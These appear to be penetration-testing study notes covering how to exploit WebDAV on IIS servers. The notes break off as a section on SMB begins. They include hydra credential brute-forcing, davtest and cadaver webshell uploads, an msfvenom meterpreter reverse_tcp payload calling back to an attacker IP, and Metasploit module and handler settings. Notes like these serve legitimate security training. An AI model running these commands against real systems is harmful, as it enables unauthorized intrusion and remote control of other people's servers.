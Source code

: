 <a id=2.3.1.3></a>
#### Exploitation

The first steps to exploit WebDAV is to check for the following:

- Is it running on an IIS server?
- Try bruteforcing credentials.
- Authenticate and upload a malicious ASP payload to execute 
  arbitrary commands.

Some tools we can use are:

- davtest: Scan, authenticate and exploit a WebDAV server.
- cadaver: Upload and download files, on-screen display, editing,
  namespace operations, collection creation and deletion, property
  manipulation and more. It's a CLI client.

```bash
$ nmap -sV [TARGET] # Identify the IIS server.
# A useful script is http-webdav-scan. If an IIS server is found, it'll be used automatically.
$ nmap -sV [TARGET] -p80/443 --script=http-enum 
# Just enumerate the target. You can use ffuf, gobuster, etc.
$ hydra -L /path/to/users -P /path/to/passwords [TARGET] http-get /webdav-directory
$ davtest -auth user:password -url [TARGET/webdav-endpoint] 
$ cadaver http://[IP]/webdav-endpoint
Username: user
Password: pass
# Now we should have a pseudoterminal.
> put /path/to/shell
# Depending on the output of davtest, you could upload different types of files. In this case,
# webshells. But you'll need to pick one that will actually work!
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=[ATTACKER IP] LPORT=[ATTACKER PORT] -f asp > shell.asp
# Upload and execute through cadaver.
# The payload generated will be 32 bit by default. 
msf5 > use exploit/windows/iis/iis_webdav_upload_asp
msf5 exploit > set HttpUsername [USERNAME]
msf5 exploit > set HttpPassword [PASSWORD]
msf5 exploit > set RHOSTS [TARGET]
# You can pick a custom payload, but the windows/meterpreter/reverse_tcp one is pretty good.
# Also: if you use this module, you don't have to manually create a payload. The console will
# do it for you.
# Plus: when ran, it uploads, runs and deletes the ASP payload.
msf5 > use exploit/multi/handler
msf5 exploit > set LHOST [ATTACKER IP]
msf5 exploit > set LPORT [ATTACKER PORT]
msf5 exploit > set payload windows/meterpreter/reverse_tcp
```

<a id=2.3.2></a>
### Exploiting SMB

Since we already know what SMB is from previous modules, we'll jump to the exploitation part.
